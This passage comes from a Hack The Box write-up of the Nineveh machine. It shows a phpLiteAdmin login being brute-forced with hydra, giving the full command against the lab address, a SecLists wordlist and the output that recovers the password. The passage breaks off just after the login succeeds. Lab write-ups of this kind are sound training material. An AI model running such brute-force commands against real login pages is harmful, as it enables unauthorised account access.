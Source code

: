 ## Shell as www-data (via phpLiteAdmin)

### phpLiteAdmin Brute Force

Modern HTB doesn't require brute force on passwords without some clear
indication to do so. Nineveh must have been before that time. Given that
I only have a password field, and there's likely a code execution
exploit, I started with phpLiteadmin using `hydra`. For a web brute
force, I'll want to start with a smaller password list.
[SecLists](https://github.com/danielmiessler/SecLists)
(`apt install seclists`) has a `twitter-banned.txt` that seems like a
reasonable place to start:



    root@kali# wc -l /usr/share/seclists/Passwords/twitter-banned.txt
    397 /usr/share/seclists/Passwords/twitter-banned.txt



I'll run `hydra` with the following options:

-   `-l 0xdf` - `hydra` requires a username, even if it won't use it
-   `-P [password file]` - a file of passwords to try
-   `https-post-form` - this is the plugin to use, which takes a string
    with three parts, `:` separated:
    -   `/db/index.php` - the path to POST to
    -   `password=^PASS^&remember=yes&login=Log+In&proc_login=true` -
        the POST data, with `^PASS^` being the thing that will be
        replaced with words from the wordlist
    -   `Incorrect password` - text on the response that indicates
        failure to login

It finds the password very quickly:



    root@kali# hydra 10.10.10.43 -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-11 06:03:28
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 397 login tries (l:1/p:397), ~25 tries per task
    [DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
    [443][http-post-form] host: 10.10.10.43   login: 0xdf   password: password123
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-11 06:03:36



### Enumerate phpLiteAdmin

With the password, I can login:
